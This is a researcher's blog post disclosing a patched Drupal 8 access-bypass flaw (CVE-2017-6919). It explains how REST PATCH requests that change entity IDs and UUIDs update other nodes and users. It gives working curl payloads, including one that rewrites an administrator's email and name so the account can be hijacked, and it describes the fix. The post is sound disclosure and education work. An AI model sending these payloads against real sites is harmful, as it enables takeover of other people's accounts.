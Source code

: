 ```yaml
---
layout: post
title:  "Hijacking Drupal admin accounts using REST"
date:   2018-05-21 08:00:00 -0500
categories: drupal security
---
```

_Note: This exploit was fixed over a year ago as a part of
[SA-CORE-2017-002/CVE-2017-6919], so unless your Drupal 8 site is really,
really out of date, you should not be affected._

When I do security research on Drupal core, I tend to focus on one class of
vulnerability and pursue that until I find something.

You may have heard of [Drupalgeddon], the largest Drupal exploit to date, which
used SQL injection to modify data on vulnerable sites. SQL injection used to be
a lot easier to find, but Drupal core has traditionally been good about
sanitizing user input and forming dynamic queries in a way that’s safe. Even
knowing this, I wanted to find some way to exploit how Drupal executes SQL,
even if that wasn’t a traditional SQL injection attack.

I had been researching REST vulnerabilities at the time, and was poking at
nodes trying to perform malicious POST and PATCH requests to circumvent access
checking, validation, and serialization/normalization. After hours (alright,
more like days) of research, I had nothing. The REST resource for nodes was
solid and the Entity API blocked me every step of the way.

_Note: I researched this vulnerability on Drupal 8.3.1, so if you’re following
along please use that version._

Feeling disparaged, I decided to take a look at the JSON response for a node
again:

```json
{"nid":[{"value":1}],"uuid":[{"value":"c63a2388-8bf8-4f25-b563-8bd88bd1dea1"}],"vid":[{"value":1}],"langcode":[{"value":"en"}],"type":[{"target_id":"article","target_type":"node_type","target_uuid":"ee96e8f7-e0bb-411d-bde3-372e2669721d"}],"status":[{"value":true}],"title":[{"value":"My title"}],"uid":[{"target_id":1,"target_type":"user","target_uuid":"67a7e0a7-57f9-44d0-bbc9-7f43496487c4","url":"\/user\/1"}],"created":[{"value":1526675840}],"changed":[{"value":1526675848}],"promote":[{"value":true}],"sticky":[{"value":false}],"revision_timestamp":[{"value":1526675848}],"revision_uid":[{"target_id":1,"target_type":"user","target_uuid":"67a7e0a7-57f9-44d0-bbc9-7f43496487c4","url":"\/user\/1"}],"revision_log":[],"revision_translation_affected":[{"value":true}],"default_langcode":[{"value":true}],"path":[],"body":[{"value":"\u003Cp\u003EWow the body\u003C\/p\u003E\r\n","format":"basic_html","summary":""}],"comment":[{"status":2,"cid":0,"last_comment_timestamp":1526675848,"last_comment_name":null,"last_comment_uid":1,"comment_count":0}],"field_image":[],"field_tags":[]}
```

The top-level properties there are: nid, uuid, vid, langcode, type, status,
title, uid, created, changed, promote, sticky, revision_timestamp,
revision_uid, revision_log, revision_translation_affected, default_langcode,
path, body, comment, field_image, and field_tags.

When I was trying to exploit REST previously, I was sending bad data for fields
like body (XSS?), path (open redirect?), and field_image (access private
files?). None of this had worked, but I started to wonder about the base fields
in the response, specifically nid and uuid. What happens when you change the ID
or UUID of an entity?

Let’s try it out! We’re going to send a PATCH request for node 1, changing the
nid and title fields in hopes of modifying another entity's data:

```bash
$ curl -u admin:password -X PATCH http://localhost/node/1?_format=json -H 'Content-Type: application/json' -d '{"nid":[{"value": 2}],"type":"article","title":[{"value": "Hello world"}]}'
{"message":"Unprocessable entity: validation failed.\n: The content has either been modified by another user, or you have already submitted modifications. As a result, your changes cannot be saved.\n"}
```

That didn’t work, so next I tried to change the UUID and NID at the same time.
It would make sense that you need to pass a new UUID, as otherwise the UUID
from node 1 would be used, and wouldn't be very unique at all.

Let’s try changing both:

```bash
$ curl -u admin:password -X PATCH http://localhost/node/1?_format=json -H 'Content-Type: application/json' -d '{"nid":[{"value": 2}],"uuid":[{"value": "6786fd3c-cbc9-49a0-8b07-47ed78ed052e"}],"type":"article","title":[{"value": "Hello world"}]}'
{}
```

This is interesting - an empty response was returned, and the response code was
500\.

This error was logged on the server:

```
Drupal\Core\Database\IntegrityConstraintViolationException: SQLSTATE[23000]:
Integrity constraint violation: 19 UNIQUE constraint failed: node.vid:
  UPDATE {node}
    SET nid=:db_update_placeholder_0, vid=:db_update_placeholder_1, type=:db_update_placeholder_2, uuid=:db_update_placeholder_3, langcode=:db_update_placeholder_4
    WHERE nid = :db_condition_placeholder_0; Array ( [:db_update_placeholder_0] => 2 [:db_update_placeholder_1] => 1 [:db_update_placeholder_2] => article [:db_update_placeholder_3] => 6786fd3c-cbc9-49a0-8b07-47ed78ed052e [:db_update_placeholder_4] => en [:db_condition_placeholder_0] => 2 ) in Drupal\Core\Database\Connection->handleQueryException() (line 682 of [redacted]/drupal/core/lib/Drupal/Core/Database/Connection.php).
```

So close! The query got all the way to the database before getting blocked. I
tried passing a random “vid” (revision ID) value, but after some researching
realized that this attack only worked if creating new revisions by default was
disabled for the target Content Type. After more testing I got the exploit
working, and could update any node regardless of my permission level!

The reason this was possible was that the Entity API never expected anyone to
ever update entity keys, so there was never access checking for them. I could
verify how this works in my PHP console:

```php
>>> $user = \Drupal\user\entity\User::getAnonymousUser();
=> Drupal\user\entity\User {#8632
>>> $node = \Drupal::entityTypeManager()->getStorage('node')->load(1);
=> Drupal\node\entity\Node {#9004
>>> // The “status” field can only be changed by users with the
>>> // “administer nodes” permission.
>>> // For details see \Drupal\node\NodeAccessControlHandler::checkFieldAccess
>>> \Drupal::entityTypeManager()
      ->getAccessControlHandler('node')
      ->fieldAccess('edit', $node->getFieldDefinition('status'), $user);
=> false
>>> // There is no explicit access checking for NID!
>>> \Drupal::entityTypeManager()
      ->getAccessControlHandler('node')
      ->fieldAccess('edit', $node->getFieldDefinition('nid'), $user);
=> true
```

To re-cap a bit, the stages of this exploit are:

1. Make an PATCH request to the REST resource for node 1, which our user has
valid access to.
1. Drupal sets the nid to another node's ID (2), and the uuid to a new value.
1. Drupal saves node 1, which generates an SQL query with a “WHERE nid = 2”
condition, allowing updates to node 2’s fields!

The SQL query was fully sanitized, but values and conditions are present that
Drupal did not expect. So strictly no SQL was injected into the query, but the
lack of access checking in the entity API led to an illogical query: “Update
node 1 where the ID is equal to 2”.

Updating arbitrary nodes is fun, but it was quickly clear that the big exploit
here would be to send a PATCH request for the current user, pass the ID of an
admin user, and gain access to their account.

The payload was similar - in this example user 2 changes the email and name of
user 1, which would then let me request a password reset and hijack the
administrative user. Note that the existing password of user 2 (“password”) is
provided as it's required to change the email and name fields:

```bash
$ curl -u admin:password -X PATCH http://localhost/user/2?_format=json -H 'Content-Type: application/json'
-d '{
      "uid":  [{"value": 1}],
      "uuid": [{"value": "2e9403a4-d8af-4096-a116-624710140be0"}],
      "name": [{"value": "yougothacked"}],
      "mail": [{"value": "yougot@hacked.com"}],
      "pass": [{"existing": "password"}],
    }'
```

It worked! Any user with access to update their profile with REST could change
the email and name of any other user on the site. Once an administrative
account has been hacked, attackers can, in the worst case, execute another
exploit to execute remote code on the server.

The Drupal security team treated this as a serious vulnerability and got a fix
out quickly. The code change can be [seen here] - in it the ID and UUID keys
can only be set when an entity is created, not when it’s updated. This was a
great example of a complex problem with a simple exploit and fix.

After the fix for this was released I started working with the security team as
a volunteer, and am now a full member. That means I have less time to research
new vulnerabilities, but am definitely not done hunting yet.

This issue left me wondering about other APIs out there - how many have not
handled the case of a property being changed that eventually results in a SQL
query that updates an unexpected row? Could you replicate this kind of attack
elsewhere, and is there a name for it yet? If I ever end up researching another
API this will definitely be on my list of things to check.

_Thanks to Jess (xjm), Michael Hess, and Moshe Weitzman for reviewing this
before I posted it._

[SA-CORE-2017-002/CVE-2017-6919]: https://www.drupal.org/forum/newsletters/security-advisories-for-drupal-core/2017-04-19/drupal-core-critical-access-bypass
[Drupalgeddon]: https://www.drupal.org/forum/newsletters/security-advisories-for-drupal-core/2014-10-15/sa-core-2014-005-drupal-core-sql
[seen here]: https://cgit.drupalcode.org/drupal/commit/?id=92e613a
